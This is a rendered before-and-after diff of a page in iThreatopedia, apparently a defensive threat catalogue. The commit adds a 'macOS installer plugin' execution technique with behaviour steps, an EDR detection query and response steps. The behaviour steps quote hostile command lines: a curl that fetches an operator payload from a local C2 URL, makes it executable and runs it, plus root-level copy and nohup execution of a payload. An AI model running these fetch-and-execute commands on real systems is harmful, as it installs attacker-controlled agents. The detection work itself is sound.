

Before and after one commit to iThreatopedia/iThreatopedia.github.io, a Jekyll site: the page built from _iThreatopedia/macOS/installers.md, in a window 1280 px wide and 1400 px high, scrolled down 1945 px. Shown: the top 1383 px of the window, without its empty margins (212-1070 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2575 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
adding installer plugin ttp

```diff
--- a/_iThreatopedia/macOS/installers.md
+++ b/_iThreatopedia/macOS/installers.md
@@ -32,6 +32,7 @@
     Respond:
       - Step: View the process_cmdline field. This will contain the execution of the preinstall script and will have the name of the .pkg being executed.
       - Step: Look at children of the process (often this will be the bash process, but could be another script interpreter). These children will be the commands executed as a result of the preinstall script.
+      - Step: Review all file writes and network connections of all children processes.
 
   - Name: macOS installer package with postinstall script
     Description: This query detects any instance of macOS installers running a postinstall script.
@@ -40,11 +41,11 @@
     Privileges: Root
     MitreID: T1204.002
     Behaviors:
-      - Step: When executing the pkg file generated via iShelly, launchd runs Installer as user.
+      - Step: When executing the pkg file generated via <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a>, launchd runs Installer as user.
       - Step: After the user clicks through Installer prompts and authenticates, launchd runs package_script_service as root.
       - Step: package_script_service runs bash (or whatever script interpreter is used in the installer) as root with a cmdline similar to <pre><code>/bin/bash /tmp/PKInstallSandbox.YxqP12/Scripts/com.simple.test.ir2Zsb/postinstall /Users/user/iShelly/Payloads/install_pkg.pkg / / / </code></pre>
       - Step: The bash process launches cp as root with the following cmdline <pre><code>cp files/operator-payload /Library/Application Support/ "</pre></code> chmod is also executed by the same bash process to make it executable using cmdline <pre><code>chmod +x /Library/Application Support/operator-payload </pre></code>
-      - Step: the same bash process executes nohup -> bash as root with cmdline <pre><code>nohup bash -c /Library/Application\\ Support/operator-payload -name installer-w-postinstall-script</pre></code>
+      - Step: the same bash process executes nohup, which executes bash as root with cmdline <pre><code>nohup bash -c /Library/Application\\ Support/operator-payload -name installer-w-postinstall-script</pre></code>
       - Step: operator-payload executes as root using cmdline <pre><code>/Library/Application Support/operator-payload -name installer-w-postinstall-script</pre></code> and makes a network connection to operator.
     Execute:
       - Prelude Operator: Run <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a> with the "Installer Package w/ only postinstall script" Installer Package option. Then execute the pkg file, which will execute an Operator agent after clicking through Installer prompts.
@@ -54,4 +55,26 @@
     Respond:
       - Step: View the process_cmdline field. This will contain the execution of the postinstall script and will have the name of the .pkg being executed.
       - Step: Look at children of the process (often this will be the bash process, but could be another script interpreter). These children will be the commands executed as a result of the postinstall script.
+      - Step: Review all file writes and network connections of all children processes.
+
+  - Name: macOS installer plugin
+    Description: This query detects any instance of macOS installer plugins.
+    Usecase: Adversaries may pair this technique with a social engineering component to execute malware. Adversaries may use this technique to generate less known EDR behavioral patterns or when they need malware running as user.
+    Category: Execution
+    Privileges: User
+    MitreID: T1204.002
+    Behaviors:
+      - Step: When executing the pkg file generated via <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a>, launchd runs Installer as user.
+      - Step: Installer prompts the user with subject "This package will run a program to determine if the software can be installed".
+      - Step: xpcproxy magic happens, and launchd executes InstallerRemotePluginService-x86_64 as user.
+      - Step: InstallerRemotePluginService-x86_64 then launches the script interpreter as a user. In our case this will be bash (since this is how iShelly implements this vector). The cmdline is <pre><code>/bin/bash -c /usr/bin/curl -k 'http://127.0.0.1:3391/payloads/d2526ae26fc2139263f57c2af445004e385772ec/operator-payload' -o /Users/$USER/Library/Application\\ Support/operator-payload; chmod +x /Users/$USER/Library/Application\\ Support/operator-payload; /Users/$USER/Library/Application\\ Support/operator-payload -name installer-plugin & </pre></code>
+      - Step: as a result of the above bash one liner, bash executes the following children processes- curl, chmod, operator-payload.
+      - Step: operator-payload makes a network connection to operator.
+    Execute:
+      - Prelude Operator: Run <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a> with the "Installer Package w/ Installer Plugin" Installer Package option.
+    Detect:
+      - EDR: process_name = "InstallerRemotePluginService-x86_64"
+    Respond:
+      - Step: View the children of the process.
+      - Step: View all network connections and file writes of all children processes.
 ---
```
